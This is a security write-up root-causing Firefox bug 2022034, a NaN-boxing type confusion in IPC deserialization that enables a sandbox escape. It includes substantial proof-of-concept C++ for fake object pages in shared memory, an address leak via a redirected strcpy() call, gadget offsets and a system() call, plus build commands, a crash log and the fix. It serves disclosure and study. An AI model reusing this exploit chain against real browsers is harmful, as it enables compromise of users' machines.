


# What The Claude (Bug 2022034): NaN Around and Find Out

## Introduction

This writeup is part of **What The Claude**, a series where we analyze and
root-cause browser bugs (co)found with Claude from Anthropic.

The first two entries covered memory corruption inside Firefox's content
process. [Bug 2022034](https://bugzilla.mozilla.org/show_bug.cgi?id=2022034)
starts from a compromised content process and targets the privileged parent
through Firefox's typed JS actor IPC.

> “A raw NaN crossing an IPC boundary can masquerade as a tagged JS object
> pointer, turning double deserialization into a parent-process fake-object
> primitive.”
>
> — [Mozilla Hacks](https://hacks.mozilla.org/2026/05/behind-the-scenes-hardening-firefox/)

The bug is in the conversion of an IPC `double` into a SpiderMonkey
`JS::Value`. The content process can send a NaN whose raw bits overlap
SpiderMonkey's object tag. The parent copies those bits and later treats the
value as an object, giving the content process control of a parent-side
`JSObject*`.

We will trace the value through IPC, explain how `setDouble()` creates the type
confusion, and then use IPDL shared memory to leak the parent XUL base and call
`system()` in the parent process. In the next part, we will put the series
together by chaining one of the previously documented content-process RCEs
with this bug into an end-to-end Firefox sandbox escape.

## Setup

- macOS 26.5.1 on Apple Silicon
- Vulnerable revision:
  [`92a1d6f948e2`](https://github.com/mozilla-firefox/firefox/commit/92a1d6f948e2b1613c65ea4511c6c6463c420608)
- Fixed revision:
  [`557568e88c39`](https://github.com/mozilla-firefox/firefox/commit/557568e88c3976af69605861ccdfb22ce2e8ebe5)
- Tested XUL SHA-256:
  `e6c4a4f40ccb43ba457287641a0c2b6c0d28d58cfaf920c6afc45c9d9d26e060`

Build flags:

```text
# mozconfig
ac_add_options --enable-application=browser
ac_add_options --enable-optimize
ac_add_options --disable-debug
ac_add_options --enable-debug-symbols
ac_add_options --disable-install-strip
ac_add_options --disable-tests
ac_add_options --disable-crashreporter
ac_add_options --enable-release
ac_add_options --as-milestone=release
mk_add_options AUTOCLOBBER=1
```

The two offsets in the PoC belong to this XUL binary. Recalculate them if the
hash differs.

From the Firefox checkout, copy the [C++ PoC](pocs/bug-2022034-sbx.cpp), apply
the [patch](pocs/bug-2022034.patch), and build:

```bash
cp /path/to/pocs/bug-2022034-sbx.cpp dom/ipc/
git apply /path/to/pocs/bug-2022034.patch
./mach build
```

Serve the PoC directory:

```bash
python3 -m http.server 8000 \
  --bind 127.0.0.1 \
  --directory /absolute/path/to/bug-2022034-jsipcvalue-nan-boxing/pocs
```

Open the page with a new profile:

```bash
profile="$(mktemp -d /tmp/bug2022034.XXXXXX)"
BUG2022034_TRIGGER=1 \
  /path/to/Nightly.app/Contents/MacOS/firefox \
  --no-remote \
  --new-instance \
  --profile "$profile" \
  "http://127.0.0.1:8000/test.html"
```

The vulnerable build launches Calculator from the parent process.

## Firefox IPC

Firefox uses JS Window Actors to let its own JavaScript modules communicate on
behalf of a particular page. Each actor has a child side tied to the page's
`WindowGlobalChild` and a parent side tied to its `WindowGlobalParent`. For an
out-of-process page, those sides live in the content and parent processes.
`sendAsyncMessage()` sends a one-way message, while `sendQuery()` returns a
promise for a reply. Firefox converts the message payload to a `JSIPCValue` and
carries it through `PWindowGlobal::RawMessage`.



The message starts in the sandboxed content process and ends in the parent.
`sendAsyncMessage()` converts the JavaScript payload into a `JSIPCValue` and
adds the actor and message names used for delivery:

```cpp
// dom/ipc/jsactor/JSActor.cpp
void JSActor::SendAsyncMessage(JSContext* aCx,
                               const nsAString& aMessageName,
                               JS::Handle<JS::Value> aObj,
                               JS::Handle<JS::Value> aTransfers,
                               ErrorResult& aRv) {
  // ...
  JSIPCValueUtils::Context cx(aCx, /* aStrict = */ false);
  IgnoredErrorResult error;
  auto data = JSIPCValueUtils::FromJSVal(
      cx, aObj, aTransfers, mSendTyped, error);  // JS value -> IPC value
  if (error.Failed()) {
    // ...
    return;
  }

  JSActorMessageMeta meta;
  meta.actorName() = mName;                 // Selects the actor in the parent.
  meta.messageName() = aMessageName;        // Selects its message handler.
  meta.kind() = JSActorMessageKind::Message;

  auto stack = CaptureJSStack(aCx);
  SendRawMessage(meta, std::move(data), stack, aRv);
}
```

`SendRawMessage()` hands the metadata and typed value to the window-global IPC
actor. `PWindowGlobal` defines `RawMessage` in both directions:

```cpp
// dom/ipc/PWindowGlobal.ipdl
both:
  async RawMessage(JSActorMessageMeta aMetadata, JSIPCValue aData,
                   nullable StructuredCloneData aStack);
```

On the parent side, `WindowGlobalParent` forwards the message to
`JSActorManager`. The manager converts the `JSIPCValue` back into a
SpiderMonkey value before calling the selected parent actor:

```cpp
// dom/ipc/WindowGlobalParent.cpp
IPCResult WindowGlobalParent::RecvRawMessage(
    const JSActorMessageMeta& aMeta, JSIPCValue&& aData,
    StructuredCloneData* aStack) {
  ReceiveRawMessage(aMeta, std::move(aData), aStack);
  return IPC_OK();
}

// dom/ipc/jsactor/JSActorManager.cpp
void JSActorManager::ReceiveRawMessage(const JSActorMessageMeta& aMetadata,
                                       JSIPCValue&& aData,
                                       ipc::StructuredCloneData* aStack) {
  // Message handlers run in Firefox's privileged JavaScript realm.
  AutoEntryScript aes(xpc::PrivilegedJunkScope(), "JSActor message handler");
  JSContext* cx = aes.cx();
  ErrorResult error;

  RefPtr<JSActor> actor = GetActor(cx, aMetadata.actorName(), error);
  if (error.Failed()) {
    return;
  }

  JS::Rooted<JS::Value> data(cx);
  JSIPCValueUtils::ToJSVal(
      cx, std::move(aData), &data, error);  // IPC value -> parent JS value
  if (error.Failed()) {
    return;
  }

  if (aMetadata.kind() == JSActorMessageKind::Message) {
    actor->ReceiveMessage(cx, aMetadata, data, error);  // Deliver to JS.
  }
  // ... Handle queries and query replies.
}
```

`JSIPCValue` is the typed format used for those payloads. Its union includes
strings, booleans, numbers, arrays, objects, maps, sets, and a structured-clone
fallback:

```cpp
// dom/ipc/jsactor/JSIPCValue.ipdlh
union JSIPCValue {
    void_t;
    null_t;
    nsString;
    bool;

    // Together these represent JavaScript numbers.
    double;
    int32_t;

    StructuredCloneData;

    // ... Common DOM objects.

    JSIPCProperty[];
    JSIPCArray;
    JSIPCSet;
    JSIPCMapEntry[];
};
```

## The Bug

The PoC runs inside the compromised content process. Its `trigger()` function
encodes a chosen address in the bits of a NaN and sends the value through
`RawMessage`:

```cpp
// dom/ipc/bug-2022034-sbx.cpp
void trigger(WindowGlobalChild* aActor, uintptr_t aAddress) {
  const uint64_t bits =
      0xFFFE000000000000ULL | (aAddress & 0x00007FFFFFFFFFFFULL);
  double value;
  std::memcpy(&value, &bits, sizeof(value));

  JSActorMessageMeta meta;
  meta.actorName() = "AudioPlayback"_ns;
  meta.messageName() = u"trigger"_ns;
  meta.queryId() = 0;
  meta.kind() = JSActorMessageKind::Message;

  aActor->SendRawMessage(meta, JSIPCValue(value), nullptr);
}
```

The parent receives the `JSIPCValue` and runs the vulnerable `ToJSVal()`
conversion.

Firefox sends the `double` as eight bytes and reads those bytes back into a
`double` in the parent:

```cpp
// ipc/chromium/src/chrome/common/ipc_message_utils.h
template <>
struct ParamTraitsFundamental<double> {
  typedef double param_type;

  static void Write(MessageWriter* writer, const param_type& p) {
    writer->WriteDouble(p);  // Write the 64-bit value.
  }

  static bool Read(MessageReader* reader, param_type* r) {
    return reader->ReadDouble(r);  // Read the same 64-bit value.
  }
};
```

IPC preserves the 64-bit double. `JSIPCValueUtils::ToJSVal()` then copies those
bits into a SpiderMonkey `JS::Value`:

```cpp
// dom/ipc/jsactor/JSIPCValueUtils.cpp
void JSIPCValueUtils::ToJSVal(JSContext* aCx, JSIPCValue&& aIn,
                              JS::MutableHandle<JS::Value> aOut,
                              ErrorResult& aError) {
  // ...
  switch (aIn.type()) {
    // ...
    case JSIPCValue::Tdouble:
      aOut.setDouble(aIn.get_double());  // Copy the IPC bits into JS::Value.
      return;
    // ...
  }
}
```

For `Tdouble`, `setDouble()` copies the NaN bits directly into the `JS::Value`.

## How The NaN Becomes An Object

`JS::Value` stores numbers, objects, strings, booleans, and other JavaScript
types in one 64-bit word. Numbers keep their IEEE-754 encoding. SpiderMonkey
uses some NaN bit patterns to store the other types.

On 64-bit Firefox, the tag begins at bit 47:

```cpp
#define JSVAL_TAG_SHIFT 47

enum JSValueTag : uint32_t {
  JSVAL_TAG_MAX_DOUBLE = 0x1FFF0,
  JSVAL_TAG_INT32 = JSVAL_TAG_MAX_DOUBLE | JSVAL_TYPE_INT32,
  // ...
  JSVAL_TAG_OBJECT = JSVAL_TAG_MAX_DOUBLE | JSVAL_TYPE_OBJECT
};
```

The same bits describe a NaN as a `double` and an object as a `JS::Value`:

```text
double 0xFFFE414141414141
              |
              | setDouble() copies the bits
              v
JS::Value
  tag:     0x1FFFC (Object)
  payload: 0x414141414141
              |
              | toObject()
              v
  (JSObject*)0x414141414141
```

`bitsFromDouble()` copies the bits directly. `setDouble()` checks the result
only with a debug assertion after the write:

```cpp
// js/public/Value.h
class Value {
  uint64_t asBits_;

  static uint64_t bitsFromDouble(double d) {
#if defined(JS_NONCANONICAL_HARDWARE_NAN)
    d = CanonicalizeNaN(d);
#endif
    return mozilla::BitwiseCast<uint64_t>(d);
  }

 public:
  // ...
  void setDouble(double d) {
    asBits_ = bitsFromDouble(d);  // Store the trigger bits unchanged.
    MOZ_ASSERT(isDouble());       // Not present in release builds.
  }
  // ...
};
```

`isObject()` reads those bits as a tag:

```cpp
// js/public/Value.h
bool isObject() const {
#if defined(JS_NUNBOX32)
  return toTag() == JSVAL_TAG_OBJECT;
#elif defined(JS_PUNBOX64)
  MOZ_ASSERT((asBits_ >> JSVAL_TAG_SHIFT) <= JSVAL_TAG_OBJECT);
  return asBits_ >= JSVAL_SHIFTED_TAG_OBJECT;
#endif
}
```

For the trigger value, `isObject()` returns true, so callers treat
`0x414141414141` as a `JSObject*`.

## The Trigger

The [crash PoC](pocs/bug-2022034-crash-poc.patch) adds this code to
`WindowGlobalChild.cpp`. It sends the tagged NaN as the only element of a
`JSIPCArray`:

```cpp
// dom/ipc/WindowGlobalChild.cpp
constexpr uint64_t bits = 0xFFFE414141414141ULL;
double value;
memcpy(&value, &bits, sizeof(value));  // Keep the exact NaN bits.

nsTArray<JSIPCValue> elements;
elements.AppendElement(JSIPCValue(value));
JSIPCValue data(JSIPCArray(std::move(elements)));

JSActorMessageMeta meta;
meta.actorName() = "AudioPlayback"_ns;
meta.messageName() = u"trigger"_ns;
meta.queryId() = 0;
meta.kind() = JSActorMessageKind::Message;

wgc->SendRawMessage(meta, std::move(data), nullptr);
```

When the parent rebuilds that array, `ToJSArray()` converts the element and
passes the result to `JS_DefineElement()`:

```cpp
// dom/ipc/jsactor/JSIPCValueUtils.cpp
static void ToJSArray(JSContext* aCx, nsTArray<JSIPCValue>&& aElements,
                      JS::MutableHandle<JS::Value> aOut,
                      ErrorResult& aError) {
  JS::Rooted<JSObject*> array(aCx,
                              JS::NewArrayObject(aCx, aElements.Length()));
  if (!array) {
    aError.NoteJSContextException(aCx);
    return;
  }

  JS::Rooted<JS::Value> value(aCx);
  for (uint32_t i = 0; i < aElements.Length(); i++) {
    JSIPCValueUtils::ToJSVal(aCx, std::move(aElements.ElementAt(i)),
                             &value, aError);
    if (aError.Failed()) {
      return;
    }

    // The trigger double reaches this call as an Object value.
    if (!JS_DefineElement(aCx, array, i, value, JSPROP_ENUMERATE)) {
      aError.NoteJSContextException(aCx);
      return;
    }
  }

  aOut.setObject(*array);
}
```

`JS_DefineElement()` passes the value to `DefineDataElement()`. Before defining
the element, it checks the object and the value:

```cpp
// js/src/vm/PropertyAndElement.cpp
static bool DefineDataElement(JSContext* cx, JS::Handle<JSObject*> obj,
                              uint32_t index,
                              JS::Handle<JS::Value> value,
                              unsigned attrs) {
  cx->check(obj, value);  // The second argument is the fake Object value.
  // ...
  return ::DefineDataPropertyById(cx, obj, id, value, attrs);
}
```

The object branch follows the fake pointer to read its compartment:

```cpp
// js/src/vm/JSContext-inl.h
void check(const js::Value& v, int argIndex) {
  if (v.isObject()) {
    check(&v.toObject(), argIndex);  // Treat the fake data as JSObject*.
  }
  // ...
}

void check(JSObject* obj, int argIndex) {
  if (obj) {
    checkObject(obj);
    check(obj->compartment(), argIndex);  // Reads through JSObject::shape().
  }
}
```

The check dereferences `(JSObject*)0x414141414141`:

```text
Process 19751 stopped
* thread #1, name = 'MainThread', queue = 'com.apple.main-thread', stop reason = EXC_BAD_ACCESS (code=1, address=0x414141414141)
  * frame #0: 0x000000014452cc68 XUL`js::gc::HeaderWord::get(this=0x0000414141414141) const at Cell.h:111:23 [opt] [inlined]
    frame #2: 0x000000014452cc68 XUL`JSObject::shape(this=0x0000414141414141) const at JSObject.h:94:37 [opt] [inlined]
    frame #3: 0x000000014452cc68 XUL`JSObject::compartment(this=0x0000414141414141) const at JSObject.h:146:49 [opt] [inlined]
    frame #5: 0x000000014452cc64 XUL`js::ContextChecks::check(this=0x000000016fdfa470, v=0x000000016fdfa538, argIndex=1) at JSContext-inl.h:134:7 [opt]
    frame #8: 0x0000000144c80768 XUL`DefineDataElement(cx=0x000000010ed41a00, obj=Handle<JSObject *> @ x21, index=0, value=Handle<JS::Value> @ x20, attrs=1) at PropertyAndElement.cpp:461:7 [opt]
    frame #9: 0x0000000144c80728 XUL`JS_DefineElement(cx=<unavailable>, obj=<unavailable>, index=<unavailable>, value=<unavailable>, attrs=<unavailable>) at PropertyAndElement.cpp:474:10 [opt] [artificial]
    frame #10: 0x00000001434235e8 XUL`mozilla::dom::ToJSArray(aCx=0x000000010ed41a00, aElements=0x00000001598cfac0, aOut=MutableHandle<JS::Value> @ x19, aError=0x000000016fdfa5f0) at JSIPCValueUtils.cpp:524:10 [opt]
    frame #11: 0x0000000143423554 XUL`mozilla::dom::JSIPCValueUtils::ToJSVal(aCx=0x000000010ed41a00, aIn=<unavailable>, aOut=MutableHandle<JS::Value> @ x19, aError=0x000000016fdfa5f0) at JSIPCValueUtils.cpp:716:14 [opt]
    frame #13: 0x00000001433189f0 XUL`mozilla::dom::WindowGlobalParent::RecvRawMessage(this=<unavailable>, aMeta=<unavailable>, aData=<unavailable>, aStack=<unavailable>) at WindowGlobalParent.cpp:568:3 [opt]
    frame #15: 0x00000001433d3130 XUL`mozilla::dom::PContentParent::OnMessageReceived(this=<unavailable>, msg__=0x0000000160881280) at PContentParent.cpp:6684:32 [opt]
```

## The Leak

`AllocUnsafeShmem()` creates a shared-memory handle. IPDL sends that handle to
the parent, which maps it into its own address space:

```cpp
// ipc/glue/ProtocolUtils.cpp
Shmem IToplevelProtocol::CreateSharedMemory(size_t aSize, bool aUnsafe) {
  auto shmemBuilder = Shmem::Builder(aSize);
  // ...
  auto [createdMessage, shmem] =
      shmemBuilder.Build(NextId(), aUnsafe, MSG_ROUTING_CONTROL);
  (void)GetIPCChannel()->Send(std::move(createdMessage));  // Send the handle.
  // ...
  return shmem;
}

bool IToplevelProtocol::ShmemCreated(const Message& aMsg) {
  Shmem::id_t id;
  RefPtr<Shmem::Segment> segment(
      Shmem::OpenExisting(aMsg, &id, true));  // Map the received handle.
  // ...
  mShmemMap.InsertOrUpdate(id, std::move(segment));
  return true;
}

// ipc/glue/Shmem.cpp
already_AddRefed<Shmem::Segment> Shmem::OpenExisting(
    const IPC::Message& aDescriptor, id_t* aId, bool /*unused*/) {
  MutableSharedMemoryHandle handle;
  IPC::MessageReader reader(aDescriptor);
  if (!ShmemCreated::ReadInfo(&reader, aId, &handle)) {
    return nullptr;
  }
  // ...
  auto mapping = handle.Map();
  // ...
  return MakeAndAddRef<Shmem::Segment>(std::move(mapping));
}
```

The content process can now write bytes that the parent reads. The PoC fills
128 shared blocks with copies of a 16 KiB fake-object page, then sends
`0x178180000` (reliably mapped on my system) as the `JSObject*`.

Each page contains the object graph SpiderMonkey expects to follow:

```cpp
// dom/ipc/bug-2022034-sbx.cpp
void FillFakePage(uint8_t* aPage, uintptr_t aParentAddress,
                  uintptr_t aCallTarget) {
  std::memset(aPage, 0, kPageSize);

  // JSObject -> Shape -> BaseShape -> Realm -> Compartment
  Write64(aPage, 0x000, aParentAddress + 0x100);
  Write64(aPage, 0x100, aParentAddress + 0x200);
  Write64(aPage, 0x208, aParentAddress + 0x400);
  Write64(aPage, 0x400, aParentAddress + 0x1000);

  // Realm -> BasePrincipal -> vtable slot used by the virtual call
  Write64(aPage, 0x528, aParentAddress + 0x2800);
  Write64(aPage, kPrincipalOffset, aParentAddress + kVtableOffset);
  Write64(aPage, 0x3270, aCallTarget);
  // ...
}
```

macOS maps shared-cache code at the same address in both processes. Before
sending the first message, the PoC resolves `strcpy()` in the content process
and uses that address as the virtual call target:

```cpp
void pwn(WindowGlobalChild* aActor) {
  void* copySymbol = dlsym(RTLD_DEFAULT, "strcpy");

  // ... Allocate the shared blocks and fill every page.
  FillFakePage(page, kParentObject,
               reinterpret_cast<uintptr_t>(copySymbol));

  trigger(aActor, kParentObject);
  // ...
}
```

When Firefox wraps the fake object for another realm, XPConnect compares its
principal with the real parent principal:

```cpp
// js/xpconnect/wrappers/WrapperFactory.cpp
JSObject* WrapperFactory::Rewrap(JSContext* cx, HandleObject existing,
                                 HandleObject obj) {
  // ...
  JS::Realm* origin = js::GetNonCCWObjectRealm(obj);  // Realm from fake data.
  JS::Realm* target = js::GetContextRealm(cx);        // Real parent realm.

  bool originSubsumesTarget =
      OriginAttributes::IsRestrictOpenerAccessForFPI()
          ? AccessCheck::subsumesConsideringDomain(origin, target)
          : AccessCheck::subsumesConsideringDomainIgnoringFPD(origin, target);
  // ...
}
```

At the virtual call, `x0` points to the fake principal in shared memory and
`x1` points to the real parent `SystemPrincipal`. Redirecting that call to
`strcpy()` copies the start of the real principal into the shared page. Its
first field is a XUL vtable pointer.

In the tested XUL, the `SystemPrincipal` vtable is at `0x96bc870`. The object
points 16 bytes into that vtable, so the leaked pointer's offset is
`0x96bc880`. We can subtract that offset to find the XUL base:

```cpp
const uintptr_t xulBase = observed - kSystemPrincipalVptrOffset;
```

The PoC prints:

```text
parent XUL pointer: 0x000000013d11c880
parent XUL base:    0x0000000133a60000
```

## Code Execution

The two messages use the same shared pages:



With XUL's base address, we can calculate the gadget's address by adding its
`0x1191e58` offset:

```text
0x1191e58  ldp   x8, x1, [x0, #0x20]
0x1191e5c  ldp   x2, x3, [x0, #0x30]
0x1191e60  ldrb  w4, [x0, #0x40]
0x1191e64  ldr   x5, [x0, #0x48]
0x1191e68  ldp   x9, x6, [x0, #0x10]
0x1191e6c  add   x0, x9, x8, asr #1
0x1191e70  tbz   w8, #0, 0x1191e7c
0x1191e74  ldr   x8, [x0]
0x1191e78  ldr   x6, [x8, w6, uxtw]
0x1191e7c  br    x6
```

The gadget effectively calls `x6(x0, x1, ...)`, with `x6` set to `system()` and
`x0` pointing to `/usr/bin/open -a Calculator`:

```cpp
FillFakePage(controlPage, controlObject,
             xulBase + kRegisterLoaderOffset);

std::memcpy(controlPage + kCommandOffset, kCommand, sizeof(kCommand));
Write64(controlPage, kPrincipalOffset + 0x10,
        controlObject + kCommandOffset);  // x9, then x0
Write64(controlPage, kPrincipalOffset + 0x18,
        reinterpret_cast<uintptr_t>(systemSymbol));  // x6, branch target
Write64(controlPage, kPrincipalOffset + 0x20, 0);    // x8 keeps x9 unchanged

trigger(aActor, controlObject);
```



## The Fix

The
[fix](https://github.com/mozilla-firefox/firefox/commit/557568e88c3976af69605861ccdfb22ce2e8ebe5)
changes one line:

```diff
 case JSIPCValue::Tdouble:
-  aOut.setDouble(aIn.get_double());
+  aOut.set(JS_NumberValue(aIn.get_double()));
   return;
```

`JS_NumberValue()` replaces any NaN with one standard NaN value before creating
the `JS::Value`:

```cpp
static MOZ_ALWAYS_INLINE JS::Value JS_NumberValue(double d) {
  int32_t i;
  d = JS::CanonicalizeNaN(d);  // Replace it with the standard NaN bits.
  if (mozilla::NumberIsInt32(d, &i)) {
    return JS::Int32Value(i);
  }
  return JS::DoubleValue(d);
}
```

The fixed parent receives the same `double`, changes it to
`0x7FF8000000000000`, and keeps it as a number.

## References

- [Mozilla: Behind the Scenes Hardening Firefox with Claude Mythos Preview](https://hacks.mozilla.org/2026/05/behind-the-scenes-hardening-firefox/)
- [Bug 2022034: NaN-boxing type confusion in JSIPCValue deserialization](https://bugzilla.mozilla.org/show_bug.cgi?id=2022034)
- [SpiderMonkey `JS::Value` representation](https://github.com/mozilla-firefox/firefox/blob/92a1d6f948e2b1613c65ea4511c6c6463c420608/js/public/Value.h)
- [IPDL shared-memory creation and parent tracking](https://github.com/mozilla-firefox/firefox/blob/92a1d6f948e2b1613c65ea4511c6c6463c420608/ipc/glue/ProtocolUtils.cpp#L733)
- [IPDL shared-memory handle mapping](https://github.com/mozilla-firefox/firefox/blob/92a1d6f948e2b1613c65ea4511c6c6463c420608/ipc/glue/Shmem.cpp#L139)
- [Bug 2022034 fix](https://github.com/mozilla-firefox/firefox/commit/557568e88c3976af69605861ccdfb22ce2e8ebe5)
- [Bug 2022034 regression test](https://github.com/mozilla-firefox/firefox/commit/43b06fc8baa186b5c9021e9a955e3a4a485a1956)
